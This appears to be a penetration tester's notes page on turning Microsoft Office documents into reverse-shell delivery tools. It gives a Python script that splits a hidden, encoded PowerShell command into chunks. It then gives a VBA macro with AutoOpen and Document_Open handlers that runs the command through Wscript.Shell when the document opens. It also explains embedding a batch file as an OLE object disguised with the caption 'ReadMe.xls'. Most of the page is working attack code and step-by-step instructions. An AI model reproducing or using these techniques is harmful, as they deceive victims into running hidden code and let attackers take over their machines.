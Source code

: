 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Office macro reverse shell
[[1._Reverse Shells (WIN)#hta raw]]

Copy everything from: 
"powershell.exe -nop -w hidden -e ....... " into the str variable in split.py:

split.py
```python - kali
str = 

n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

run the python file:

```bash - kali
python split.py
```

Paste to notepad++, shift over 1 tab.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	.......................
    Str = Str + "wB0AGEAcgB0ACgAJABzACkAOwA="
    
    CreateObject("Wscript.Shell").Run Str

End Sub

```

New document in Word.
View > Macros > View Macros

Macro name: MyMacro

Macros in: Document1

![[Pasted image 20220603093224.png]]

Click Create.

Paste in Macro code.  Save.

Tools to help analyze the VBA Macro in the document:
https://github.com/decalage2/oletools/wiki/Install
```bash - kali
sudo -H pip install -U oletools
```

https://github.com/decalage2/oletools/wiki/olevba
```bash - kali
olevba --reveal Shelly.doc
```

#### Office Object Linking and Embedding

First, make a "launch.bat" file.

Paste in your powershell code form above:

```
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4kAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAU.....
vAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA= 
```

Insert > Object > Create from File > launch.bat

Select "Display as icon"
Click "Change Icon"
Chang icon if desired.
Change the Caption: "ReadMe.xls"

Click "OK"
